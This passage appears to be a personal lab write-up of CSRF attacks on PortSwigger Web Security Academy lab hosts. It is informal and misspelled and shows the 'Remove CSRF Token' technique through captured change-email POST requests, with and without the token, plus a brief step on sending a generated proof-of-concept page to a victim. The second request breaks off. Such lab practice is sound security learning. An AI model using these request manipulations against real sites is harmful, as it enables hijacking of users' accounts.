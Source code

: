  and click "Regenerate"
 
 copy html and sand the victom
 
 victam click the link 
 
 boom hack the id 
    
    
 ## 3. Remove CSRF Token 
 
  Find CSRF vulnerability
  
  Email change functionality is vulnerable to CSRF
  
  Burp intercept request and manualy review
    
    
    POST /my-account/change-email HTTP/1.1
    Host: 0a47009a043a07eac09a218e000300a8.web-security-academy.net
    Cookie: session=VShOTSOiOO4zVZzz8bn9QOcI7dhmtYJj
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 59
    Origin: https://0a47009a043a07eac09a218e000300a8.web-security-academy.net
    Referer: https://0a47009a043a07eac09a218e000300a8.web-security-academy.net/my-account
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    email=asif%40khan.com&csrf=WETxOXISfGeVUKAPqcezagvb4x9HSaZn


 Remove CSRF Token, Sand Request to Server, accept the request, website is vulnerabilities 
 
    
    POST /my-account/change-email HTTP/1.1
    Host: 0a47009a043a07eac09a218e000300a8.web-security-academy.net
    Cookie: session=VShOTSOiOO4zVZzz8bn9QOcI7dhmtYJj
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 59
    Origin: https://0a47009a043a07eac09a218e000300a8.web-security-academy.net
    Referer: https://0a47009a043a07eac09a218e000300a8.web-security-academy.net/my-account
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close
